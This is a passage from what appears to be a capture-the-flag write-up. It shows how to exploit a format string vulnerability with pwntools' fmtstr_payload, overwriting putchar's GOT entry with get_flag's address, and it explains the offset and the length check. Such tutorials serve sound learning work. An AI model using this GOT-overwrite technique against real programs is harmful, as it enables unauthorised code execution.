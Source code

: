 ![alt text](/images/image-9-3.png)

#### Third way: Use `fmtstr_payload`.

The `fmtstr_payload` function is a useful feature in the `pwntools` library, used to generate payloads for format string vulnerabilities. This function helps exploit vulnerabilities by writing to specific addresses in memory or reading values ​​from there.
```
payload = b'A' * 112
payload += fmtstr_payload(20,{putchar : get_flag})

assert(len(payload) < (0x158 - 0x78))   
```
```
20: Offset of the parameter in the stack (from top to bottom).
{putchar: get_flag}: Is a dictionary containing address: value pairs, in which:
  putchar: Address to overwrite (usually the address of a function in GOT).
  get_flag: The value will be written to the above address (usually the address of a function or shellcode).

assert(len(payload) < (0x158 - 0x78)): Make sure that the size of the entire payload does not exceed the limit of 224. If the condition is true, the program continues to run normally. If the condition is false (payload exceeds 224 bytes), the program stops and reports an AssertionError. Because if it overflows, it will overwrite the second parameter of printf and will not be format string.
```
